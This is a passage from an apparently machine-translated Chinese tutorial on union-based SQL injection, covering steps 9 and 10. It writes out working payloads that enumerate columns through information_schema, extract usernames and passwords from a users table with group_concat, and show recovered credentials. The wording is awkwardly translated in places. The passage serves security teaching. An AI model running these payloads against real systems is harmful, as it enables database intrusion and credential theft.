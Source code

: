 *query-something cat = ' 1 union select 1，column_name，3，4，5，6，7，8，9，10，11 from information _ schema . columns where table _ name = ' users '—(& rest 被忽略)*

*9.最后我们得到了*表 _ 名* & *列 _ 名*。是时候扔掉凭证了。使用查询`union select 1,uname,3,4,5,6,pass,8,9,10,11 from users --`。因为值 7 也是易受攻击的，所以我们可以在那里检索细节。向下滚动到底部查看结果。*

*![](img/a307d9f933a6b04e75032bd8dafc05ab.png)*

*来自用户的查询- something cat ='1 union select 1，uname，3，4，5，6，pass，8，9，10，11—(忽略& rest)*

*最后，我们在 uname:**test**&pass:**test 中得到用户的凭证。***

*10.如果只有 1 个参数(此处为值 2)可检索。使用 **group_concat** 将这些值连接在一起。As: `union select 1, group_concat(email,’:’,uname,’:’,pass),3,4,5,6,7,8,9,10,11 from users --`*

*![](img/2abf94fb343043c3716e83ab150ac399.png)*

*union select 1，group_concat(email，':'，uname，':'，pass)，3，4，5，6，7，8，9，10，11 from users —*

*哼！SQL 注入就是猜测和尝试。要得到完美查询，可能需要反复试验。*

*让我们深入研究一下自动化工具，它可能有助于利用 SQL 注入。*

*![](img/4a6690a451137e8c56172d01afc8d9e0.png)*
